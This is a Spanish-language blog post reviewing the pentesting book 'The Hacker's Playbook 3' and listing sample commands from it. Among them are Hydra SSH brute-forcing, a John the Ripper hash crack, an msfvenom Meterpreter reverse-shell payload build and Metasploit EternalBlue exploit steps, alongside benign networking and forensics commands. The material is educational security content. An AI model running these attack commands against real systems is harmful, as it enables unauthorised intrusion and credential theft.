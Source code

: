 ```yaml
---
title: "📘🔐 The Hacker's Playbook 3: Tu Compendio Estratégico en Ciberseguridad 🌐💻"
author: "c4r4nch0"
date: "2023-07-20"
draft: false
searchHidden: false
EStags: ["libro", "estrategia", "ciberseguridad"]
ShowToc: True
ShowBreadCrumbs: True
# cover:
#     image: "https://example.com/images/hackers_playground.jpg"
#     alt: "The Hacker's Playground"
#     caption: "Donde los Estrategas Cibernéticos Perfeccionan su Arte"
#     relative: true # To use relative path for cover image, used in Hugo Page-bundles    

---
```


![Elige tu estrategia: The Hacker's Playbook 3](/campo_de_juego.jpg)

¡Saludos, camaradas de la InfoSEC! Hoy nos sumergiremos en las profundidades estratégicas del "The Hacker's Playbook 3," una joya invaluable en el universo de la ciberseguridad y el testing de penetración. Si estás determinado a dominar el arte de la estrategia cibernética o simplemente deseas elevar tus habilidades en seguridad informática, este libro es una herramienta poderosa que no puede faltar en tu arsenal.

**¿Por qué "The Hacker's Playbook 3"?**

Imagina esto: Estás en el corazón de una prueba de penetración compleja y necesitas una referencia rápida para esa técnica o comando esotérico. Podrías aventurarte en las vastas profundidades de Internet, pero el tiempo apremia y necesitas una fuente confiable a tu alcance. Aquí es donde "The Hacker's Playbook 3" (HP3 para los amigos) entra en escena. Este manual compacto, pero profundo, está diseñado para esos momentos críticos.

**La Magia del HP3**

HP3 es una guía detallada y pragmática que abarca una amplia gama de temas relevantes para el testing de penetración, red teaming, y la ciberseguridad en general. Es como tener un mentor experimentado en tu bolsillo, listo para asistirte en tus momentos más críticos.

[foto del libro The Hacker's Playbook 3]

**Comandos y Técnicas que Adorarás**

Aquí te presento algunos comandos y técnicas que encontrarás en HP3 y que, personalmente, me han encantado, listos para ser copiados y utilizados en tus travesías cibernéticas:

1. **Magia de Enumeración**:
   
   Descubrir información valiosa sobre tu objetivo es crucial. HP3 proporciona una variedad de comandos de enumeración para ayudarte a iniciar:

   - Enumeración de SNMP:
     ```bash
     snmpwalk -c public -v1 IP_objetivo
     ```

   - Enumeración de SMB (usando Enum4linux):
     ```bash
     enum4linux -a IP_objetivo
     ```

2. **Desentrañando Contraseñas**:

   Cuando necesitas desentrañar contraseñas, HP3 ofrece herramientas y técnicas para lograrlo:

   - Usando John the Ripper para desentrañar hashes de contraseñas:
     ```bash
     john --wordlist=lista_de_palabras.txt --format=NT hashes.txt
     ```

   - Empleando Hydra para ataques de fuerza bruta:
     ```bash
     hydra -l usuario -P lista_de_contraseñas.txt ssh://IP_objetivo
     ```

3. **Esenciales de Explotación**:

   Domina exploits comunes y payloads con estos comandos esenciales:

   - Metasploit (lanzando un payload de shell reverso):
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=tu_IP LPORT=tu_puerto -f exe > payload.exe
     ```

   - Explotando una vulnerabilidad conocida (ejemplo con EternalBlue):
     ```bash
     msfconsole
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS IP_objetivo
     exploit
     ```

4. **Paraíso de Cheat Sheets**:

   HP3 está repleto de cheat sheets para diversas tecnologías y protocolos. Aquí un ejemplo para referencia rápida:

   - Cheat Sheet de PowerShell (para comandos básicos):
     ```powershell
     Get-Process
     Get-Service
     Get-NetAdapter
     ```

5. **Ninja de la Red**:

   Para todas tus necesidades de red, la sección de redes de HP3 te tiene cubierto:

   - Configurando una interfaz de red (ejemplo con ifconfig):
     ```bash
     ifconfig eth0 up
     ifconfig eth0 192.168.1.2 netmask 255.255.255.0
     ```

   - Configurando un túnel SSH:
     ```bash
     ssh -L puerto_local:IP_objetivo:puerto_remoto usuario@servidor_ssh
     ```

6. **Forense y Respuesta ante Incidentes**:

   Cuando estés inmerso en un escenario

 de respuesta ante incidentes, estos comandos serán de gran ayuda:

   - Recopilación de datos volátiles usando Volatility (ejemplo para análisis de memoria):
     ```bash
     volatility -f volcado_de_memoria.raw imageinfo
     volatility -f volcado_de_memoria.raw pslist
     ```

   - Verificación de puertos abiertos y procesos en escucha (ejemplo con netstat):
     ```bash
     netstat -tuln
     ```

Utiliza estos comandos de manera responsable en tus travesías cibernéticas.

Recuerda, con gran poder viene gran responsabilidad. 🕵️‍♂️🔍🐍

**Ejemplos del Mundo Real**

HP3 no es solo una lista de comandos; proporciona contexto y ejemplos del mundo real. Te muestra cómo aplicar estos comandos en escenarios reales, es como tener a un colega experimentado compartiendo sus experiencias contigo.

**Conclusión**

Entonces, ¿deberías adquirir "The Hacker's Playbook 3"? Absolutamente. Es una fuente compacta pero poderosa de conocimiento en ciberseguridad que resulta increíblemente útil tanto para principiantes como para profesionales experimentados. Aunque no reemplazará una comprensión profunda, es una herramienta esencial para la referencia rápida y la orientación práctica.

[foto mía utilizando HP3 en un escenario del mundo real]

Ya sea que estés inmerso en una prueba de penetración, estudiando para una certificación o simplemente curioso sobre la ciberseguridad, este manual se convertirá en tu fiel compañero. ¡Es como tener un libro de códigos trucos para el mundo del hacking (éticamente, por supuesto)!

Así que, consigue tu copia de "The Hacker's Playbook 3" y embarquémonos en una travesía llena de aventuras cibernéticas, un comando a la vez.